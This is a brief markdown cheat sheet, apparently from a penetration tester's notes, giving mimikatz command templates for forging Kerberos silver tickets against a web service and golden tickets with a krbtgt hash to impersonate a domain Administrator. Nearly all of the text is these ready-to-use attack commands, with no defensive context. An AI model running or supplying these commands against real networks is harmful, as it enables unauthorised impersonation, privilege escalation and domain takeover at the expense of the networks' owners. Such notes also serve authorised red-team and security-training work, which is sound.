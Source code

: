 ## Ticket Forgery

### Silver Ticket Forgery

If attempting to forge a silver ticket to hit a website, from within `mimikatz.exe`:
```
kerberos::golden /sid:<current user SID> /domain:<FQDN> /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### Golden Ticket Forgery

From `mimikatz.exe`:
```
kerberos::golden /user:Administrator /domain:<FQDN> /sid:<Domain SID> /krbtgt:<krbtgt NTLM hash> /target:<target DC> /ptt
```